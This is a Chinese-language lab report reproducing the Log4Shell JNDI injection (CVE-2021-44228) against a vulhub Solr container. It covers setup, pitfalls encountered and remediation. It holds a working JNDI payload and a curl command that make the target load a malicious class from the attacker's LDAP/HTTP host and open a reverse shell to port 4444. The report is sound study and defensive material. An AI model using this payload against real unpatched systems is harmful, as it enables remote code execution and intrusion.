





# CVE‑2021‑44228 Log4j2 JNDI 注入远程代码执行漏洞复现实验报告

## 1、漏洞概述

- 漏洞编号：CVE‑2021‑44228（Log4Shell）
- 漏洞类型：远程代码执行 RCE
- 影响组件：Apache Log4j2 2.0‑beta9 ~ 2.14.1
- 原理简述：
Log4j2 在解析日志内容时支持 JNDI 查找语法 `${jndi:ldap://xxx}`。攻击者可控输入点的内容会被日志打印，Log4j2 会主动访问 payload 内的 LDAP 服务地址；LDAP 服务返回指向恶意 Java 类的引用，目标服务器 JDK 会远程加载并执行恶意类，实现远程代码执行。

> 
> 注意：JDK 8u191 之后默认开启`com.sun.jndi.rmi.object.trustURLCodebase=false`，限制远程加载类；vulhub Solr 8.11.0 靶场使用低版本 JDK，不受该限制，可以复现完整 RCE。

## 2、实验环境


| 设备 | IP | 角色 |
| --- | --- | --- |
| 靶机 (目标机) | 192.168.0.3 | Vulhub Solr 8.11.0 docker 容器，端口 8983 |
| 攻击机 | 192.168.0.5 | CentOS7.9，启动 LDAP 服务、HTTP 服务、反弹 shell 监听 |
| 物理机 | 192.168.0.4 | Clash 代理端口 7897，用于攻击机下载外网资源 |

- 靶场环境：vulhub/log4j/CVE‑2021‑44228，`docker‑compose up -d`启动 Solr 服务，访问`http://192.168.0.3:8983`
- 约束：**全程不操作靶机系统，所有攻击动作仅在攻击机执行**；靶机仅接收网络请求，由容器内部完成出站 JNDI 请求。

## 3、复现流程

### 3.1 靶场启动（靶机执行，仅启动环境）

```
cd ~/vulhub/log4j/CVE-2021-44228
docker-compose up -d
docker ps
# 确认 solr 容器8983端口映射正常
```

### 3.2 攻击机环境准备（192.168.0.5）

1. 防火墙放行端口：1389 (LDAP)、8080 (HTTP 恶意类)、4444 (反弹 shell)

```
systemctl start firewalld
systemctl enable firewalld
firewall-cmd --add-port=1389/tcp --permanent
firewall-cmd --add-port=8080/tcp --permanent
firewall-cmd --add-port=4444/tcp --permanent
firewall-cmd --reload
setenforce 0
```

2. 终端配置代理，解决 github 下载 404 / 连接超时

```
export HTTP_PROXY=http://192.168.0.4:7897
export HTTPS_PROXY=http://192.168.0.4:7897
```

> 
> 坑点：环境变量代理**只对当前终端生效**，新开终端需要重新 export；docker daemon 代理和 shell 环境变量代理互相独立。

3. 工具获取

> 
> 踩坑记录：
> 
> 
> 1. JNDI‑Exploit‑Killer releases 链接 404，仓库版本变更；
> 2. marshalsec 直接下载 release 包 404；
> 3. JNDI‑Injection‑Exploit mvn 打包网络差会依赖下载失败；
> 4. 本地运行 jar 提示`Unable to access jarfile`：文件不存在、不在当前工作目录、文件名大小写错误；
> 5. `找不到或无法加载主类`：jar 包损坏、cp 类路径书写错误。

> 
> 可行方案：攻击机配置代理后下载 JNDIExploit‑1.2‑SNAPSHOT.jar 完整 jar 包，作为 LDAP RefServer。

### 3.3 攻击链路说明

> 📌JNDIExploit、HTTP托管恶意class、nc反弹监听均部署于**攻击机192.168.0.5**；目标机192.168.0.3不会运行任何攻击工具，仅受Log4j2漏洞驱动，主动出站访问攻击机服务完成RCE。

1. 攻击机：启动 JNDIExploit，LDAP服务监听1389端口，内置HTTP服务监听8080端口托管恶意class
2. 攻击机：新开终端 nc 监听4444端口，等待接收反弹shell
3. 攻击机发送HTTP请求给Solr靶场，请求头带入payload：`${jndi:ldap://192.168.0.5:1389/Basic/ReverseShell/192.168.0.5/4444}`
4. Solr内部Log4j2打印该payload，触发JNDI查询，访问攻击机1389 LDAP服务
5. JNDIExploit返回LDAP引用，指引目标机JDK去攻击机8080端口下载恶意class字节码
6. Solr的JDK远程加载恶意class并执行代码，反弹shell回攻击机4444端口

> ❗坑点记录：Docker容器网络，靶场容器访问`192.168.0.5`攻击机IP，要保证容器网桥路由可达；不要使用127.0.0.1，容器内localhost指向容器自身。


### 3.4 Payload 发包方式

两种方式二选一：

1. curl 发包（攻击机直接发）

```
curl -H "X-Forwarded-For: \${jndi:ldap://192.168.0.5:1389/Basic/ReverseShell/192.168.0.5/4444}" http://192.168.0.3:8983/solr/admin/cores

```

2. Burp Suite 抓包修改请求头，把`X‑Forwarded‑For`字段设置为 JNDI payload，Repeater 发送。

> 
> 踩坑：payload 符号`$ { }`在 shell curl 需要转义，否则 shell 做变量解析，payload 被破坏。

### 3.5 预期现象

1. Marshalsec LDAP 服务日志看到来自靶场容器的 LDAP 连接
2. HTTP 服务日志看到靶场请求下载`Exploit.class`
3. nc 监听窗口收到靶机 solr 容器 bash shell，复现 RCE 成功。

## 4、本次复现踩坑汇总

1. **docker‑compose 拉取镜像卡住**

> 
> 现象：镜像分层长时间 Waiting；国内网络访问 docker hub 限速。
> 解决：配置 docker registry 镜像加速器；或者终端 shell 配置 clash 代理下载镜像。
> 坑：daemon.json 格式写错会直接导致 docker 启动失败，写完成必须`daemon‑reload && restart docker`。

2. **运行 jar 报错：Unable to access jarfile xxx.jar**

> 
> 原因：①jar 文件没有下载到当前目录；②文件名复制错误；③wget github release 返回 404，没有真正下载到文件。
> 排查：执行`ls‑la`确认 jar 文件真实存在当前目录。

3. **github wget 返回 404 Not Found**

> 
> 现象：release 标签版本号变更、仓库删除版本；直接访问 github 下载失败。
> 解决：配置 shell 代理；使用 ghproxy 加速地址；更换可用工具版本。

4. **maven 打包大量 download 超时**

> 
> 现象：编译 JNDI 工具时 maven 远程拉取依赖卡住。
> 解决：配置 maven 阿里镜像源；网络差环境避免现场编译，优先使用编译好的 all‑in‑one jar 包。

5. **java 报错：找不到或无法加载主类**

> 
> 原因：`‑cp`类路径参数书写错误；jar 包不完整损坏。
> 排查：确认 jar 包完整，核对类全限定名。

6. **payload curl 发送不生效**

> 
> 坑：bash 环境中`$`是变量符号，不转义会被 shell 解析吃掉 payload，到达 Solr 已经不是完整`${jndi:...}`。
> 解决：payload 放在单引号内或者转义`\$`。

7. **JNDI 请求发出去但是 LDAP 服务没有收到连接**

> 
> ①防火墙 /selinux 拦截攻击机 1389、8080 端口入站；
> ②docker 容器网络无法路由到达攻击机 IP；
> ③JDK 版本过高，默认关闭`trustURLCodebase`，禁止远程加载类；vulhub 靶场规避该条件。

> 补充本次实操踩坑：JDK8u412 高版本默认禁止远程加载类，必须使用 JDK8u181 及以下版本 JDK 环境才可以复现完整 RCE。

8. **区分两种代理：shell 环境变量代理 vs docker daemon 代理**

> 
> export HTTP_PROXY 只作用当前 shell 终端，用于 wget/java 程序网络；
> /etc/docker/daemon.json proxies 配置是 docker 守护进程拉镜像代理；二者互不通用。

9. **误区：不是抓包修改响应头实现漏洞**

> 
> Log4j2 JNDI 注入：**是靶机（Solr 容器）主动出站向外访问攻击机 LDAP 服务**；不是中间人修改响应。Burp 只负责把恶意 payload 送入靶场输入点。

## 5、漏洞修复方案

1. 升级 Apache Log4j2 到 `>=2.17.0` 正式版本
2. 临时缓解：JVM 启动参数添加

```
‑Dlog4j2.formatMsgNoLookups=true
```

3. 网络层面：限制外网出站访问 LDAP/RMI 协议端口 1099、1389 等；业务服务器禁止不必要外网出站。


## 6、复现图片


目标机1




目标机2




攻击机1




攻击机2




攻击机3




## 7、项目总结
> ### CVE‑2021‑44228 Log4j2 JNDI注入RCE
> 实验IP拓扑：目标机`192.168.0.3`，攻击机`192.168.0.5`，物理机代理`192.168.0.4:7897`
> 1. 复现Log4Shell经典JNDI注入RCE漏洞，理解Log4j2日志解析JNDI查找原理；
> 2. 使用JNDIExploit搭建LDAP+HTTP恶意类服务，构造攻击链路拿到靶场反弹shell；
> 3. 实操排查docker网络、代理区分、JDK版本限制、shell payload转义、jar文件异常等大量排错问题；
> 4. 输出完整复现命令、踩坑记录、修复方案，留存完整复现截图。
> 技术点：Java JNDI、Log4j漏洞原理、docker网络、防火墙排错、payload构造。


